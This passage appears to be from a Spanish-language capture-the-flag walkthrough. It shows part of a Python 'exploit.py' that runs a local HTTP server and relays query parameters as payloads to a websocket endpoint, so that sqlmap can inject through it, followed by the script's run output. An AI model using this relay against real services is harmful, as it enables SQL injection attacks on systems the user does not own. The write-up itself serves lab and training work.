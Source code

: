 ```python
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Sending payloads")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

Lo que hace este exploit es redirigir peticiones, vamos a ejecutarlo:

```bash
❯ python3 exploit.py
[+] Starting MiddleWare Server
[+] Sending payloads
```

### Sqlmap
